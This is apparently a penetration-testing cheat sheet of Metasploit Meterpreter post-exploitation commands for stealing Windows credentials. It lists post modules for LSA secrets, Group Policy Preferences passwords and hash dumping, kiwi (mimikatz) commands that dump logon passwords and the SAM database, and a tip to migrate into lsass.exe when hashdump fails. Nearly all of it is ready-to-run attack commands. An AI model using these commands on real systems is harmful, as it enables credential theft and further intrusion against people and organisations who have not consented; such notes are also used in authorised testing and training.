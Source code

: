 # Meterpreter

### <mark style="color:orange;">Meterpreter Modules</mark>

```
post/windows/manage/wdigest_caching

post/windows/gather/lsa_secrets

post/windows/gather/credentials/gpp

post/windows/gather/lsa_secrets

post/windows/gather/smart_hashdump
```

### <mark style="color:orange;">kiwi</mark>

```
load kiwi
creds_all
kiwi_cmd "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam"
```

### <mark style="color:orange;">hashdump</mark>

```
meterpreter > hashdump
```

if it failes, inject the meterpreter to the lsass.exe process with migrate command

```
migrate -N lsass.exe
```
